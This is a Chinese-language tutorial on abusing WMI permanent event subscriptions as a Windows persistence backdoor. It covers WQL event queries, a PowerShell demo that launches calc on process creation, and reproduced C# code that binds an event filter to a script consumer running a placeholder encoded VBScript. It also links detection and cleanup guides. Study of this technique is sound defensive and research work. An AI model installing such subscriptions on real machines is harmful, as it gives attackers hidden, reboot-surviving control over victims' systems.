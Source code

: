 ## WMIC订阅永久事件 ##
wmic创建的事件可用于做为后门来使用，如若不删除话。重启也会存在

### 查WMI ###
WMI提供了一种类似于SQL查询的语句来进行查询，WQL可分为几大类
Instance Queries (实例查询) ： 查询WMI对象实例
Event Queries(事件查询)：等同于在WMI对象创建、修改、删除的时候注册一个信息
Meta Queries(元查询)：元查询用来获取WMI命名空间和类结构的元信息

### Instance Queries ###
最常用的WQL查询
语法格式如下：
```
select [Class property name | *] from [class name] <where [constraint]>
```

### Event Queries ###
事件查询被用作一种消息机制来监听事件的触发。通常用来在一个WMI对象被实例创建、修改、删除的时候给用户发送一个消息。根据消息的类型来定义
```
intrinsic (系统自带的)
extrinsic ()第三方的)

SELECT [Class property name | *] FROM [INTRINSIC CLASS NAME] WITHIN [POLLING INTERVAL] <WHERE [CONSTRAINT]>
SELECT [Class property name | *] FROM [EXTRINSIC CLASS NAME] <WHERE [CONSTRAINT]>
```

用于登录时会触发的事件
```
SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstanceISA 'Win32_LogonSession' AND TargetInstance.LogonType=2
```

每次用户在插入可移除设备时都会触发此事件：
```
SELECT * FROM Win32_VolumeChangeEvent Where EventType=2
```

每次创建 win32 进程时都会触发此事件：
```
Select * From __InstanceCreationEvent Where TargetInstance Isa "Win32_Process"
```

###  Meta Queries ###
元查询用来查询WMI命名空间和类结构的信息。最常见的用法是用来列举WMI命名空间的类结构。元查询是实例查询的一个子集，但是与对象查询不同的是，我们查询的是类的实例的定义。

格式如下：
```
SELECT [Class property name | *] FROM [Meta_Class | SYSTEM CLASS NAME] <WHERE [CONSTRAINT]>
```

下面这个语句会查询所有以 WIN32 开头的WMI的类：
SELECT * FROM Meta_Class WHERE __CLASS LIKE "Win32%"

下面这个语句会查询某个命名空间下的所有命名空间：
SELECT Name FROM __NAMESPACE

注意：当不显示的指定命名空间时，默认的命名空间为ROOT\CIMV2。

### WMI事件 ###
为了能够安装一个永久性的 WMI 事件订阅，必须满足两个条件：

1、一个 __EventFilter 查询，它创建一个过滤器，为我们的特定事件选择触发器;
2、Event Consumer Class，代表一个事件触发时所执行的操作。在 Event Consumers（事件处理）中，可用的标准事件处理类：

```
LogFileEventConsumer： 将事件数据写入到指定的日志文件
ActiveScriptEventConsumer： 用来执行VBScript/JScript程序
NTEventLogEventConsumer：创建一个包含事件数据的日志入口点
SMTPEventConsumer：将事件数据用邮件发送
CommandLineEventConsumer：执行一条命令
```

### 创建一个触发事件和取消一个事件 ###
```
$query='Select * From __InstanceCreationEvent Within 5 Where TargetInstance Isa "Win32_Process"'
Register-WmiEvent -Query $query -Action {calc}
```
![](https://s2.ax1x.com/2019/06/08/VBRU9x.png)

创建一个win32的进程的时候就会执行calc

<b>清除事件</b>
使用Get-EventSubscriber可以查看创建的事件
![](https://s2.ax1x.com/2019/06/08/VBozSs.md.png)

执行Unregister-Event ID即可删除事件
![](https://s2.ax1x.com/2019/06/08/VBTSln.md.png)

### 使用C#创建一个在创建一个在创建特定流程时触发的事件 ###
```C#
// WMI Event Subscription Peristence Demo
// Author: @domchell

using System;
using System.Text;
using System.Management;

namespace WMIPersistence
{
    class Program
    {
        static void Main(string[] args)
        {
            PersistWMI();
        }

        static void PersistWMI()
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            string vbscript64 = "<INSIDE base64 encoded VBS here>";
            string vbscript = Encoding.UTF8.GetString(Convert.FromBase64String(vbscript64));
            try
            {
                ManagementScope scope = new ManagementScope(@"\\.\root\subscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new
                ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceCreationEvent WITHIN 5 " +            
        "WHERE TargetInstance ISA \"Win32_Process\" " +           
        "AND TargetInstance.Name = \"notepad.exe\"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"\root\cimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");

                myEventConsumer =
                new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            } // END CATCH
            Console.ReadKey();
        } // END FUNC
    } // END CLASS
} // END NAMESPACE
```
引用自：
[WMIPersistence/WMIPersist.cs at master · mdsecactivebreach/WMIPersistence · GitHub](https://github.com/mdsecactivebreach/WMIPersistence/blob/master/WMIPersist.cs)

创建持久性后门，使用C#调用WMI的API是最佳的选择

参考文章：
[Persistence: “the continued or prolonged existence of something”: Part 3 – WMI Event Subscription – MDSec](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/)

[利用WMI构建无文件后门（基础篇）](https://paper.tuisec.win/detail/2db1594f4bc8047)

清除WMI后门：
[如何检测并清除WMI持久性后门 - 先知社区](https://xz.aliyun.com/t/2873)
